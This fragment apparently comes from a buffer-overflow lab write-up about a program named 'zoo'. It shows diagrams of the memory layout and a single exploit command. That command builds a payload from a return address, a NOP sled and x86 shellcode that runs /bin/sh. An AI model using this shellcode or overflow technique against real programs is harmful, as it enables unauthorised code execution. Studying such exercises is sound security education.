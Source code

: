 So now we can sketch the memory:
<img src="https://raw.githubusercontent.com/igavriil/buffer-overflow/master/master.png" width="500" height="450"/>

###### Preparing the attacks
<img src="https://raw.githubusercontent.com/igavriil/buffer-overflow/master/master_attack.png" width="500" height="360"/>



```
./zoo -f bob -c $(perl -e print'"\x70\xa0\x04\x08" . "\x90"x211 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x0c\xa0\x04\x08"') -s 1
```

